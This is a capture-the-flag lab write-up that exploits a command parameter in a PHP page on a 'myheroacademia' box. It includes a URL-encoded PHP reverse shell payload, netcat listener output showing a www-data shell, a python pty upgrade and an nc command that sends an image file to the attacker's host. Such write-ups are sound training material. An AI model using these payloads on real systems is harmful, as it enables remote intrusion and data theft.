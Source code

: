 
what we found from the gobuster is the `/asset/`

![[Pasted image 20250504165637.png]]

now it says that `./php` which we can do this `/assets/index.php`
![[Pasted image 20250504165715.png]]

since it is using php we can use reverse shell for this payload `php%20-r%20%27%24sock%3Dfsockopen%28%2210.23.62.59%22%2C9001%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27` from revshells.com
![[Pasted image 20250504165813.png]]

lets setup our netcat
```
┌──(dd0x㉿kali)-[~]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.23.62.59] from (UNKNOWN) [10.10.170.142] 50844
```

now paste it from the url with the payload `10.10.170.142/assets/index.php?cmd=php%20-r%20%27%24sock%3Dfsockopen%28%2210.23.62.59%22%2C9001%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`

![[Pasted image 20250504165958.png]]

```
┌──(dd0x㉿kali)-[~]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.23.62.59] from (UNKNOWN) [10.10.170.142] 50844
ls
images
index.php
styles.css
whoami
www-data
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


i used `python3 -c 'import pty;pty.spawn("/bin/bash")';` to show the terminal `pty` for easier to look in to those directory.

```
python3 -c 'import pty;pty.spawn("/bin/bash")';
www-data@myheroacademia:/var/www/html/assets$ ls
ls
images  index.php  styles.css
www-data@myheroacademia:/var/www/html/assets$ cd index.php
cd index.php
bash: cd: index.php: Not a directory
www-data@myheroacademia:/var/www/html/assets$ cd images
cd images
www-data@myheroacademia:/var/www/html/assets/images$ ls
ls
oneforall.jpg  yuei.jpg
www-data@myheroacademia:/var/www/html/assets/images$ nc 10.23.62.59 < oneforall.jpg
</html/assets/images$ nc 10.23.62.59 < oneforall.jpg 
nc: missing port number
www-data@myheroacademia:/var/www/html/assets/images$ nc 10.23.62.59 4444 < oneforall.jpg
</assets/images$ nc 10.23.62.59 4444 < oneforall.jpg 
www-data@myheroacademia:/var/www/html/assets/images$ 
```

